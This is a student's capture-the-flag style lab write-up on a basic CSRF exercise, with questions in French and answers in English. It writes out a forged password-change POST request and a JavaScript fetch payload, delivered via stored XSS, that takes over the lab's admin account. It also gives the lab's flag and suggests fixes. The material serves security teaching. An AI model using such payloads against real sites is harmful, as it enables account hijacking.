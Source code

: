 # Basic CSRF

> 1. Quelle fonctionnalité du site, potentiellement vulnérable à une faille CSRF, pourriez-vous exploiter pour voler le compte administrateur ?

Different places could be vulnerable. I'm thinking about the reset password field or the ask the admin field. 

I presume, to abuse the admin rights, the ask the admin field could be quite interesting. 

> 2. Proposez une requête qui vous permettra de prendre le contrôle du compte admin, si elle était exécutée par l'administrateur.

```
POST /profile/quentin.surdez_admin HTTP/1.1
Host: basic.csrf.slh.cyfr.ch
Content-Type: application/x-www-form-urlencoded

password=1234
```

> 3. Écrivez une payload javascript qui exécute la requête.

```javascript
<script>
fetch("/profile/quentin.surdez_admin", {
    "credentials": "include",
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded",
    },
    "body": "password=1234",
    "method": "POST",
    "mode": "cors",
})
</script>
```

> 4. Quelle fonctionnalité du site, potentiellement vulnérable à une faille **Stored XSS**, pourriez-vous exploiter pour faire exécuter votre payload ?

The ask the admin form could be vulnerable to a Stored XSS if the HTML is displayed directly to the administrator.

> 5. Quel est le flag ? Comment avez-vous pu l'obtenir ?

`z5v/0E13/Y8eFIXz`

We first confirmed our hypothesis to be true by changing the password of our non-restricted profile. 

Then the payload was adapted so that the password of our admin profile is changed.

> 6. Comment corrigeriez-vous la vulnérabilité

User-generated content should be sanitized so that we are sure the content is not malicious. 

Others protections from CSRF could be put into place such as anti-CSRF tokens.